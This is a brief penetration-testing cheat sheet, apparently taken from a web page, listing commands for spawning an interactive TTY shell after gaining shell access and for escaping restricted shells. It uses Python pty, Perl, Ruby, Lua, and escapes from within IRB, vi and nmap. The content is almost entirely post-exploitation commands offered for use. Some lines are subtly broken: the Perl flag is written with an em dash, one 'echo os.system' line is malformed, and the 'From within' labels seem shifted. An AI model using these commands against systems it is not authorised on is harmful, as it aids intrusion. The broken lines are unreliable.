 # TTY shell

---

Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.Shell Spawning

    python -c 'import pty; pty.spawn("/bin/sh")'
    
    python3 -c 'import pty; pty.spawn("/bin/sh")'

    echo os.system('/bin/bash')

    /bin/sh -i

    perl —e 'exec "/bin/sh";'

    perl: 
    exec "/bin/sh";

    ruby:
    exec "/bin/sh"

    lua: 
    os.execute('/bin/sh')

    exec "/bin/sh"

• (From within IRB)

    :!bash

• (From within vi)

    :set shell=/bin/bash:shell

• (From within nmap)

    !sh

Many of these will also allow you to escape jail shells. The top 3 would be my most successful in general for spawning from the command line.Source

[https://netsec.ws/?p=337](https://netsec.ws/?p=337)